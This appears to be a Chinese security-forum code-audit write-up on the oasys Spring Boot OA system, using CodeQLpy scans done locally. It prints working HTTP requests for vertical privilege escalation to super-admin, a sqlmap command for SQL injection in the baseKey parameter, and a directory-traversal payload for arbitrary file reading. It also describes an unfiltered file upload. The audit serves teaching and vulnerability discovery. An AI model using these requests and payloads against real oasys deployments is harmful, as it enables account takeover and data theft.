


# 奇安信攻防社区 - 半自动化代码审计实战

### 半自动化代码审计实战

无论我们在手工代码审计中具备多么扎实的技术背景、丰富的经验和敏锐的洞察力，仍然会存在着一些局限性；为了克服这些局限性，使用自动化代码审计工具可以快速识别所有可疑漏洞的位置，从而提高审计的效率和准确性！

## 0x01 前言

在黑盒测试中可能会忽略一些潜在的漏洞和安全问题。而`代码审计`则可以直接查看代码、深入到代码层面对系统进行全面分析和检查其执行逻辑，从而能够发现那些黑盒测试中难以发现的问题。

我个人对代码审计最喜欢的方面是其能够扩大漏洞范围。在当前的模块化开发环境中，开发人员经常编写工具类和库来实现代码的复用，简化代码。当在代码审计中发现一个工具类存在漏洞时，调用该工具类的方法都有可能存在相同的漏洞。我们只需追溯`工具类调用处`，就可以轻松发现多个漏洞。

有一句话是这么说的"`没有绝对安全的系统`"，在这里`Yu9`借用这句话引出一个观点`无论我们在手工代码审计中具备多么扎实的技术背景、丰富的经验和敏锐的洞察力，仍然会存在着一些局限性`，例如可能会出现疏漏和错误。

为了克服这些局限性，使用自动化代码审计工具可以快速识别所有可疑漏洞的位置，从而提高审计的效率和准确性。然而，我们也要认识到自动化工具的使用也有一些限制。它们依赖于已知的漏洞模式和规则，并且可能无法完全覆盖所有的漏洞类型。因此，在进行代码审计时，手工审计和自动化工具的结合使用通常是更有效的方法，以确保发现尽可能多的漏洞并提高审计的准确性。

## 0x02 声明

**遵纪守法**  
请严格遵守网络安全法相关条例！  
此分享主要用于交流学习，请勿用于非法用途，一切后果自付。  
一切未经授权的网络攻击均为违法行为，互联网非法外之地。  
**文章转载**  
转载请联系作者获得授权 作者公众号：安服仔 Yu9

## 0x03 环境搭建

### 审计系统

**oasys**

oasys 是一个 OA 办公自动化系统，

-   基于 springboot 框架开发的项目，mysql 底层数据库，前端采用 freemarker 模板引擎，Bootstrap 作为前端 UI 框架。
-   集成了 jpa、mybatis 等框架。

源码：[https://gitee.com/aaluoxiang/oa\_system](https://gitee.com/aaluoxiang/oa_system)

**由于是 springboot 项目，直接 idea 打开，配置一下数据库，Maven 加载一下依赖就可以跑起来。**

### 工具

**CodeQL & CodeQLpy**

1）CodeQl

CodeQL 是一个语义代码分析引擎，它可以扫描发现代码库中的漏洞。使用 CodeQL，可以像对待数据一样查询代码。编写查询条件以查找漏洞的所有变体并处理，同时可以分享个人查询条件。

CodeQl 教程可以参考这位师傅的文章：[https://kiprey.github.io/2020/12/CodeQL-setup/](https://kiprey.github.io/2020/12/CodeQL-setup/)

2）CodeQLpy

CodeQLpy 是一款基于 CodeQL 实现的自动化代码审计工具

项目地址：[https://github.com/webraybtl/CodeQLpy](https://github.com/webraybtl/CodeQLpy)

## 0x04 源码扫描

使用 CodeQLpy 工具扫描源码。

1）初始化数据库，这里直接通过源码来生成数据库，所以不需要-c 参数

```js
python main.py -t D:\\Desktop\\oa\_system-master
```


2）生成数据库，如果有错请忽略，最终只要看到“成功创建数据库”就可以

```js
codeql database create out/database/oa\_system-master --language=java --source-root="D:\\Desktop\\oa\_system-master" --command="D:\\Desktop\\CodeQLpy-master\\out\\decode/run.cmd" --overwrite
```


3）查询漏洞

```js
python main.py -d D:\\Desktop\\CodeQLpy-master\\out\\database\\oa\_system-master
```


4）最终的会生成：csv 文件，路径`CodeQLpy-master\out\result`

可以看到结果还是很清晰的

Source：漏洞关键字

SourceFunction：漏洞所在的方法名

SourcePath：漏洞所在文件地址


## 0x05 漏洞分析

### 01、垂直越权获得超级管理员权限


这块已经给了有风险的代码`地址和方法名`，快速的定位漏洞点。这里咱全局搜索（ctrl+shift+f）

全局搜索`123456`，定位到`oa_system-master\src\main\java\cn\gson\oasys\controller\user\UserController.java`


阅读代码得知，这个控制器是初始化用户的功能，给了一个默认密码 123456


寻找后发现是在用户管理模块的新增功能


新增用户抓取数据包


接下来登录一个普通用户的账号、可以看到这个用户是没有`用户管理`这个功能的。

抓取他的 session


使用普通用户的 session 替换掉管理员账号抓取到的数据包中的 session。注意：身份证格式要规范，我用的自己的就不展示了。


使用下边这个数据包的话要修改身份证哈`idCard`参数

```json
POST /useredit HTTP/1.1  
Host: 127.0.0.1  
sec-ch-ua-mobile: ?0  
Accept-Encoding: gzip, deflate, br  
Sec-Fetch-Dest: iframe  
Accept-Language: zh-CN,zh;q=0.9  
Sec-Fetch-Mode: navigate  
Referer: http://127.0.0.1/useredit  
Cookie: JSESSIONID=CA902F7BBA9E186241CC19593B034F47  
Upgrade-Insecure-Requests: 1  
Cache-Control: max-age=0  
sec-ch-ua-platform: "Windows"  
Sec-Fetch-Site: same-origin  
sec-ch-ua: "Not\_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Sec-Fetch-User: ?1  
Origin: http://127.0.0.1  
Content-Type: application/x-www-form-urlencoded  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36  
Content-Length: 317  
​  
userName=test&amp;userTel=14444444444&amp;realName=%E5%BC%A0%E4%B8%89&amp;eamil=14444444444%40qq.com&amp;address=%E6%B2%B3%E5%8D%97&amp;userEdu=%E6%9C%AC%E7%A7%91&amp;school=%E9%83%91%E5%A4%A7&amp;idCard=xxxxxxxxxxxxxxxxxx&amp;bank=62175555555555433&amp;deptid=1&amp;sex=%E7%94%B7&amp;positionid=1&amp;roleid=3&amp;salary=1000&amp;hireTime=2024-01-30&amp;themeSkin=blue&amp;userId=
```

成功创建用户，并且具有超级管理员权限


### 02、sql 注入

可以看到有三个可以漏洞点都在`AddrController`类，先办它！


这块是直接给出了有风险的代码位置`oa_system-master/src/main/java/cn/gson/oasys/controller/address/AddrController.java`和方法名`outAddress`



可以看到调用了 am 的 allDirector 方法来处理`baseKey`，我们跟进去（ctrl+ 鼠标左键点击方法名）瞅瞅


然后就调用了数据库，这个系统使用的是 mybatis，咱直接点代码前的小红鸟，跟进到 xml 文件瞅瞅具体的 sql 语句


mybatis 在对 sql 语句进行预处理时：`#{}` 进行预处理、`${}` 不进行预处理。这块在处理 baseKey 参数就是使用${}直接拼接。同时 pinyin、outtype 参数也是如此、也是拼接，也可以注入

找到功能点测试发现 baseKey 参数就是`外部通讯录`模块搜索功能的参数


抓数据包


```php
POST /outaddresspaging HTTP/1.1
Host: 127.0.0.1
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Dest: empty
Cookie: JSESSIONID=ED297E0C1F3E70B122CEEEA3481786D7
sec-ch-ua-platform: "Windows"
Referer: http://127.0.0.1/addrmanage
Sec-Fetch-Mode: cors
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-mobile: ?0
Accept-Encoding: gzip, deflate, br
Accept: text/html, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Content-Length: 29

alph=ALL&amp;outtype=&amp;baseKey=qwe
```

保存数据包到 txt 文件，使用 sqlmap 一把梭，命令：

```php
python sqlmap.py -r “oasys.txt” -v 3 -level=5
```


剩下还有一个可以 sql 注入的功能在**通知列表**、审计方法相同这就贴几张图不细说了




### 03、任意文件读取


这块有俩其实都一样，咱就挑一个分析就 OK

这块是直接给出了有风险的代码位置`oa_system-master/src/main/java/cn/gson/oasys/controller/user/UserpanelController.java`方法名`image`


projectPath：当前项目路径

startpath：获取请求 URI

这块唯一的处理就是把 URI 中的`/images`替换为空，之后就创建`file`对象

也没有对文件内容做啥检测就输出了

构造 payload：

```php
/image//image..//image..//image..//image..//image..//image../test.txt
```

新建一个测试文件


成功读取到桌面文件


具体的 payload 还要看自己在配置文件中的`rootpath`


```php
GET /image//image..//image..//image..//image..//image..//image../test.txt HTTP/1.1
Host: 127.0.0.1
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
Cookie: JSESSIONID=ED297E0C1F3E70B122CEEEA3481786D7
Referer: http://127.0.0.1/addrmanage
Sec-Fetch-Mode: cors
Accept: text/html, */*; q=0.01
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate, br
Origin: http://127.0.0.1
sec-ch-ua-platform: "Windows"
Sec-Fetch-Dest: empty
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

### 04、文件上传


这里提到最多的还是文件上传，我们找一个跟进去看看


通过审计我们可以看到这块确实没有对文件后缀进行一些过滤。导致任意文件上传


但是作者这块使用 uuid 重新生成了文件名，并且上传文件存在静态文件夹。并且不会返回文件路径。so 目前貌似没有危害

oasys 是一个 springboot 项目，也在配置文件中没有找到解析 jsp 的一些配置，所以这个上传点是不足以 getshell。

**深入：**

抱着不漏掉的原则，就又看了看其他的上传点。发现一个上传头像处回显地址

漏洞地址：`oa_system-master/src/main/java/cn/gson/oasys/services/user/NotepaperService.java`


是一个`services`，那就向上追溯寻找调用处


在系统中找到位置在用户面板中个人设置处


使用刚刚越权创建的账号 test 上传一个 js 或者 pdf 文件，咱就直接用 js


之后再用户管理处就可以看到 src 中是文件地址。


### 05、其他

这个站还有一些别的漏洞，如：储存性 xss、csrf、越权读取、越权删除等漏洞。网上都可以搜到相关文章、这里就不过多阐述！

## 0x06 总结

自动化工具在审计的过程中也只是起到辅助作用。在进行代码审计时，手工审计和自动化工具的结合使用通常是更有效的方法。
